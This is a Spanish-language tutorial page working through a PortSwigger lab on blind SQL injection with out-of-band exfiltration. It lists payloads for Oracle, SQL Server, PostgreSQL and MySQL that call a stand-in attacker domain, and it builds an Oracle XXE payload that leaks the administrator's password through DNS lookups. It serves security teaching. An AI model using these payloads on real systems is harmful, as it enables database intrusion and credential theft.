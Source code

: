 ```yaml
---
layout: default
title: Ejercicio práctico
permalink: /injection_types/blind/oob_type/oob_exercise
nav_order: 1
parent: 4.4 Fuera de banda
grand_parent: 4. Inyecciones ciegas
---
```


# Ejercicio práctico de inyección fuera de banda

> Ejercicio basado en el laboratorio "Lab: Blind SQL injection with out-of-band data exfiltration" de Web Security Academy (PortSwigger).

## Consigna

Este laboratorio contiene una vulnerabilidad de inyección de SQL ciega. La aplicación usa una cookie de rastreo (*tracking*) para análisis y ejecuta una consulta SQL con el valor de esta cookie. 

Sin embargo, las consultas se ejecutan de forma asincrónica y no tienen ningún efecto en la respuesta de la aplicación. Por lo que, se debe probar extraer la información mediante otro canal.

La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`.

Para resolver el laboratorio, obtener el usuario y contraseña del usuario `administrator` e iniciar sesión con estas credenciales.

## Resolución con Burp Collaborator

Para la resolución de este laboratorio se utilizará el servidor de **Burp Collaborator** el cual está publicado a Internet y puede funcionar como canal para recibir la información. Si bien existen herramientas alternativas gratuitas, el laboratorio está configurado para únicamente comunicarse con dominios asociados a PortSwigger.

La consigna menciona que no es posible observar cambios de comportamiento sobre la aplicación, por lo que todas las pruebas deben apoyarse directamente en el servidor auxiliar externo. Para ello, acceder a la pestaña `Collaborator` (solo disponible para *Burp Suite Professional*).

![Collaborator](/test-page/assets/oob_ex_1.png)

Al presionar `Copy to clipboard` automáticamente se obtiene un **subdominio único** el cual se puede usar como canal para visualizar las respuestas DNS y HTTP del servidor de *Collaborator*.

Para identificar el DBMS y qué *payload* es válido, es pertinente probar los diferentes métodos mencionados en la [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) y así forzar una consulta DNS:

- **Oracle**: 
	```sql
	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://dominio-atacante.net/">
	 %remote;]>'),'/l') FROM dual
	```
	```sql
	SELECT UTL_INADDR.get_host_address('dominio-atacante.net')
	```
- **Microsoft**:
	```sql
	exec master..xp_dirtree '//dominio-atacante.net'`
	```
- **PostgreSQL**:
	```sql
	COPY (SELECT '') TO program 'nslookup dominio-atacante.net'`
	```
- **MySQL**:
	```sql
	LOAD_FILE('\\\\dominio-atacante.net\a')`  
	```
	```sql
	SELECT ... INTO OUTFILE '\\\\dominio-atacante.net\a'`
	```

Una consulta exitosa generaría una resolución DNS sobre el dominio utilizado, esto sería visualizado de la siguiente manera en la sección `Collaborator`:

![Collaborator 2](/test-page/assets/oob_ex_2.png)

La exitosa es la de Oracle con XML. Habiendo identificado el DBMS, sumado a los datos facilitados en la consigna, solo resta construir la consulta mediante la cual se extraerá la información. La técnica exitosa aprovecha una entidad externa XML (XXE) para activar una búsqueda de DNS. No está dentro del alcance de esta documentación explicar por qué funciona (se recomienda ver el [módulo XXE de la Web Security Academy](https://portswigger.net/web-security/xxe)). Lo importante es entender la posición de inyección y que la URL del *payload* debe ser reemplazada por la que provee *Burp Collaborator*. Con el siguiente fragmento simplificado de inyección:

```sql
SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [ <!ENTITY % remote SYSTEM 
	"http://'||(SELECT YOUR-QUERY-HERE)||'.dominio-atacante.net/"> 
	%remote;]>'),'/l') FROM dual
```

**se inserta como subdominio** el resultado de una consulta arbitraria. Por ejemplo, si la consulta fuera `SELECT 'jeje'`, el DBMS intentaría resolver el subdominio `jeje.dominio-atacante.net`. Por lo tanto, para obtener la contraseña del administrador, se inserta `SELECT password FROM users WHERE username='administrator'`. Finalmente, consulta final es:

```sql
SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [ <!ENTITY % remote SYSTEM 
	"http://'||(SELECT password FROM users WHERE username='administrator')
	||'.dominio-atacante.net/"> %remote;]>'),'/l') FROM dual
```

Suplantar el valor de la cookie con el payload final de inyección resulta en el siguiente pedido HTTP:

![Repeater](/test-page/assets/oob_ex_3.jpg)

Notar que se utiliza un dominio de *Burp Collaborator* (`oastify.com`), y que los caracteres `%` y `;` fueron reemplazados por `%25` y `%3b` respectivamente. Estas son sus codificaciones para URL y son necesarias para no generar conflicto con la interpretación/*parsing* de la cookie. Observando la respuesta en el historial de la pestaña `Collaborator`:

![Collaborator 3](/test-page/assets/oob_ex_4.png)

se aprecia la contraseña de la consulta inyectada como subdominio en la solicitud DNS.
